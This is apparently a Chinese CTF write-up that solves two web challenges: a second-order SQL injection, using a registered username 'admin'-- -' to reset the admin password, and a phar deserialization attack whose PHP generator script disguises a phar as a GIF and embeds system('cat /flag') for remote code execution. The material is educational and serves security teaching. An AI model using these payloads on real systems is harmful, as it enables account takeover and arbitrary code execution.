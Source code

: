 # Web

## 二次注入

这道题考察的是简单的二次SQL注入，出题壬希望同学们可以通过这道简单的例题初步了解二次SQL注入。

本题的预期内容还包含了通过robots.txt中的内容拿到源码，进行审计，不过似乎出题出的太简单了，大家都没用到。。。

在robots.txt里面包含了如下内容

```
User-agent: *
Disallow: /backup.zip
```

下载下来审计可以看的更明白一些。首先注册和登陆都不存在漏洞，出题壬也就掠过去不讲了，直接看修改密码的地方存在的漏洞

```php
$x=$db->execute("update users set password=? where username='$username' ",['s',&$password]);
```

这里直接将$username拼接到sql语句中了，而这个$username是在注册时选定的，因此想要实现注入，需要在注册的时候，就直接设定用户名为admin'-- -。

这样一来，登陆上去修改密码的时候，sql语句就成了

```sql
update users set password=? where username='admin' -- -'
```

(其中?指的是被绑定的参数，我们无论如何修改它都不会改变原本的语义)
而这个语句中username后面就成了admin' -- -',在MySQL中--[空格]是注释符，把SQL语句后面注释掉了，因此这句话相当于修改admin的密码。

因此在修改密码后登出，就可以用这个密码登陆admin账号获取flag了

## 反序列化？

相信大家看到问号应该知道这道题主要考的不是反序列化了吧（不会真有人在纠结反序列化吧）

### 解题方法

先观察`vulnerable.php`啊，主页上都提示了，发现了一个很显然能导致RCE的类，下面有一个`file_exists`函数，不会有人真觉得这边是检查上传文件是否成功吧。`file_exists`函数再检查phar包的时候会将其解析，利用这点进行代码执行。

使用如下代码生成一个phar包（带上gif文件头，因为上传那边会检查），然后修改后缀名上传即可，然后使用phar协议`phar://upload/xxx.gif`即可拿到flag。

```php

<?php

class Flag
{
    private $code;

    function __construct($my_code)
    {
        $this->code = $my_code;
    }

    function __destruct()
    {
        eval($this->code);
    }
}



$phar = new Phar('phar1.phar');
$phar->stopBuffering();
$phar->setStub('GIF89a' . '<?php __HALT_COMPILER();?>');
$phar->addFromString('test.txt', 'test');
$object = new Flag("system('cat /flag');");
$phar->setMetadata($object);
$phar->stopBuffering();

```
